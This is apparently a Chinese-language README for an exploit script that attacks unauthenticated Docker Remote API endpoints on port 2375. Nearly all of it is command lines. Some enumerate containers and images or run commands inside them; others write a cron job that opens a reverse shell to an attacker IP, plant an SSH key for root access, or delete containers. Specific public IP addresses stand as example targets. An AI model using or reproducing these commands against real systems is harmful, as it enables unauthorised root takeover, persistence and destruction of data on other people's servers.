 # docker_api_vul
docker 未授权访问漏洞利用脚本

##安装类库

    pip install -r requirements.txt

##查看运行的容器

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375

##查看所有的容器

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -a

##查看所有镜像

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -l

##查看端口映射

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -L

##写计划任务（centos,redhat等,加-u参数用于ubuntu等）

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口
    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口

##写sshkey(自行修改脚本的中公钥)

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -k

##在容器中执行命令

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -e "id" -I 容器id

##删除容器

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -c -I 容器id

##修改client api版本

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -v 1.22

##查看服务端api版本

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -V

